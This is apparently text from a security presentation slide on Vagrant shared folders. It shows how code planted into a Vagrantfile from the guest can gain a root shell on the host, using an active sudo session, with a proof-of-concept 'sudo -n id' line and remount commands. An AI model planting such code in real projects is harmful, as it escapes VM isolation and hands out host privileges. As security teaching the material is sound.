

THE SECURITY : SHARED FOLDERS

Exploiting A Shared Local Folder (High Privilege Shell on Host)

▶ Planting Malicious Code Into Vagrantfile
# Getting High Privilege Shell on Host
# > Local Host User Needs To Be Within Sudoers List  # > Sudo Session Needs To Be Active
system(”sudo -n id > root-id 2> /dev/null”)
Reloading Vagrantfile
$ reboot
Remount Vagrant Share
$ mount -t vboxsf vagrant /vagrant
56